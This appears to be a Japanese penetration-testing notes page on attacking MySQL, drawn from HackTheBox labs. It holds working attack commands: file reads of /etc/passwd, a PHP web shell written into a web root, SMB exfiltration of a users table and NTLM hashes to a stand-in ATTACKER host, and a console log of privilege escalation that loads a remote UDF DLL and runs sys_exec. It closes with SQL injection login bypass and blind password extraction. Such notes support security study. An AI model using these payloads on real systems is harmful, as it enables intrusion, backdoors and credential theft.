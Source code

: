 # Scenario
----

* MySQLへの攻撃シナリオは大別して３つが存在する
   1. **クライアントが攻撃者端末、サーバが被害者端末のケース**
      
      * （例１）被害者端末でMySQLのポートが公開。攻撃者は被害者端末のデータベースへアクセス可能
   1. **クライアントが被害者端末、サーバが被害者端末のケース**
      * （例２）SQL Injectionが成立
      * （例３）phpMyAdminなどのクライアントツールが被害者端末で公開。攻撃者は前記クライアントツールへアクセス可能
      * （例４）mysqlが高権限で動作。低権限で被害者端末に侵入した攻撃者がデータベースへアクセス可能
   1. **クライアントが被害者端末、サーバが攻撃者端末のケース**
      * （例５）Adminerなどの、データベースを指定可能なクライアントツールが被害者端末で公開。攻撃者は前記クライアントツールへアクセス可能
        * HTB: Admirer
      
          ![Adminer](images/Adminer.png)
   
* シナリオおよび、データベースへアクセスするクレデンシャルの権限如何で、MySQLにおいて活用可能な構文が異なる

  | Description                                   | Command                                                      |
  | --------------------------------------------- | ------------------------------------------------------------ |
  | クライアントからDBにファイルを読み込み        | `load data local infile '/etc/passwd' into table dummy`      |
  | クライアントにDBからファイルを書き出し        | `select '<?php echo system($_GET["cmd"]); ?>' into outfile '/var/www/html/shell.php'` |
  | サーバからDBにファイルを読み込み              | `select load_file('/etc/passwd')`                            |
  | サーバにDBからファイルを書き出し              | なし                                                         |
  | 関数生成（`%MYSQL_HOME%\lib\plugin\udf.dll`） | `create function sys_exec returns int soname 'udf.dll'`      |
  | smbを利用したファイル書き出し                 | `select @@version into outfile '\\\\ATTACKER\\public\\file'` |
  | smbを利用したファイル読み出し                 | `select load_file('\\\\ATTACKER\\public\\file')`             |

* 攻撃のパターンは次のようになる。
  1. データベース内のクレデンシャルの漏洩
  2. 「・・・DBからファイルを書き出し」を利用した、PHPなどのバックドアの作成
  3. 「・・・DBにファイルを読み込み」を利用した、id_rsaやdatabase.phpなどのクレデンシャルの漏洩
  4. 「smbを利用した・・・」を利用したNet-NTLMハッシュの漏洩
  5. 「smbを利用した・・・」を利用したデータベース内のクレデンシャルの漏洩
     * `select * from users into outfile '\\\\ATTACKER\\public\\file`
     * `select load_file(concat('\\\\ATTACKER\\public\\', version()))`
  6. 「・・・DBからファイルを書き出し」と「関数生成」を利用した権限昇格
     HTB: Bastard

     ```console
     Image Name                     PID Session Name        Session#    Mem Usage
     ========================= ======== ================ =========== ============
     System Idle Process              0                            0         24 K
     System                           4                            0        304 K
     smss.exe                       236                            0      1.032 K
     csrss.exe                      320                            0      4.220 K
     wininit.exe                    364                            0      4.188 K
     csrss.exe                      388                            1      7.672 K
     winlogon.exe                   440                            1      4.152 K
     services.exe                   480                            0      7.500 K
     lsass.exe                      488                            0      9.976 K
     lsm.exe                        496                            0      3.608 K
     svchost.exe                    588                            0      9.388 K
     svchost.exe                    660                            0      7.332 K
     LogonUI.exe                    744                            1     17.236 K
     svchost.exe                    752                            0     10.796 K
     svchost.exe                    792                            0     29.652 K
     svchost.exe                    824                            0     13.420 K
     svchost.exe                    896                            0      4.900 K
     svchost.exe                    936                            0     14.336 K
     svchost.exe                    256                            0     12.020 K
     spoolsv.exe                    868                            0     10.740 K
     svchost.exe                    264                            0      8.224 K
     mysqld.exe                    1052                            0     38.000 K
     svchost.exe                   1152                            0      2.580 K
     VGAuthService.exe             1208                            0     10.492 K
     vmtoolsd.exe                  1272                            0     18.108 K
     ManagementAgentHost.exe       1300                            0      9.264 K
     svchost.exe                   1332                            0     10.824 K
     WmiPrvSE.exe                  1636                            0     13.556 K
     dllhost.exe                   1904                            0     11.216 K
     msdtc.exe                     1992                            0      7.700 K
     sppsvc.exe                    2540                            0     10.576 K
     w3wp.exe                      1872                            0     12.828 K
     conhost.exe                   2784                            0      2.324 K
     mysql.exe                     2852                            0      5.132 K
     cmd.exe                       2752                            0      3.124 K
     conhost.exe                   1896                            0      2.356 K
     nc.exe                        2280                            0      3.380 K
     cmd.exe                       2964                            0      3.248 K
     tasklist.exe                   860                            0      5.308 K
     
     C:\>echo select load_file('\\\\10.10.17.187\\public\\lib_mysqludf_sys_64.dll') into dumpfile 'C:\\Program Files\\MySQL\\MySQL Server 5.5\\lib\\plugin\\udf.dll' | mysql -u root -pmysql123!root -D drupal
     C:\>echo create function sys_exec returns int soname 'udf.dll' | mysql -u root -pmysql123!root -D drupal
     C:\>echo select sys_exec('whoami'); | mysql -u root -pmysql123!root -D drupal
     sys_exec('whoami')
     0
     
     C:\>
     ```

# SQL Injection
----

* Basics
  * SQL Injectionにおけるパラメータは基本的に「特殊記号」＋「実現したい処理」＋「コメントアウト記号」で構成可能
  * 「コメントアウト記号」を挿入し、エラーが発生しないような「特殊記号」を調査し、「実現したい処理」を挿入する
  * （例）`select * from users where username = '%s' and password = '%s' limit 1`
    1. 「コメントアウト記号」の挿入
          * `select * from users where username = 'admin' and password = ';--' limit 1`
          * SQL構文として正しくないため、エラーが発生する（エラーが観測できない場合も存在する）
    1. エラーが発生しないような特殊記号の挿入
          * `select * from users where username = 'admin' and password = '';--' limit 1`
          * SQL構文として正しいため、エラーは発生しない（ただし、ログインは失敗する）
    1. 「実現したい処理」の挿入
          * `select * from users where username = 'admin' and password = '' or 1 = 1;--' limit 1`
          * ログインに成功する
  * [ffuf](https://github.com/ffuf/ffuf)を利用することで、ステップ２の自動化が可能
    * `ffuf -u http://example.com/test?param=FUZZ;-- -w ./SecLists/Fuzzing/special-chars.txt -mc all`
* Blind SQL Injection
  * 「実現したい処理」は次のような処理になることが多い
  * `and substr((select password from users limit 1), $i, 1) = '$c'`
    * `substr`の第２引数のインデックスは1から始まることに注意
  * パスワードの推定の場合、`$i`は40文字程度まで試行する
    * sha1が20バイトのため、16進数表記で40文字
  * パスワード推定の場合、`$c`は16進数で使用する文字および$に限定可能である
    * `[a-f0-9$]`

